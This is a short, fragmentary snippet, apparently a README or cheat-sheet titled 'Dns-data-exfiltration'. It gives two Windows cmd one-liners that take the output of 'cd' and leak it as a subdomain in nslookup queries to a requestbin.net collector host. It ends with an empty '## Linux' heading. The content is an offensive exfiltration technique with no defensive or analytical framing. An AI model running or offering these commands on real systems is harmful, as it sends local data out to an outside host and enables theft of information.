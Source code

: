 # Dns-data-exfiltration

```
# Windows
for /f %i in ('cd') do nslookup %i.4f4984e83e92a11d53b7.d.requestbin.net
for /f "tokens=1" %i IN ('cd') do (nslookup %i.4f4984e83e92a11d53b7.d.requestbin.net)

## Linux

```
